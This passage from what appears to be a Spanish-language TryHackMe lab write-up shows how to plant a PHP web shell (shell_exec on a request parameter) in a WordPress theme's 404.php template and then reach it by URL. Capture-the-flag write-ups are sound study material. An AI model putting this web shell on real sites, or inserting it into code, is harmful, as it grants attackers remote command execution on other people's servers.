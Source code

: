 En este caso tenemos que seleccionar el tema Twenty Seventeen, ya que si intentamos modificar el que está en uso (Twenty Twenty), no vamos a poder

<p align="center">
<img src="/assets/images/thm-writeup-for-business-reasons/img8.png">
</p>

Seleccionamos la plantilla que modificaremos, en mi caso la 404.php y ponemos el código malicioso que queramos ejecutar, en mi caso obtendré una webShell con el siguiente código:

```php
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
```
  - ```"<pre>" "</pre>"``` -> Etiquetas de preformateo (mejoran la estética del output de los comandos)
  - ```shell_exec``` -> Ejecuta el comando que reciba 'cmd'
  - ```'cmd'``` -> Parametro que recibirá los comandos
```
<p align="center">
<img src="/assets/images/thm-writeup-for-business-reasons/img9.png">
</p>

Nos dirigimos a la ruta donde se aloja el codigo que guardamos

```html
http://[IP]/wp-content/themes/twentyseventeen/404.php
```
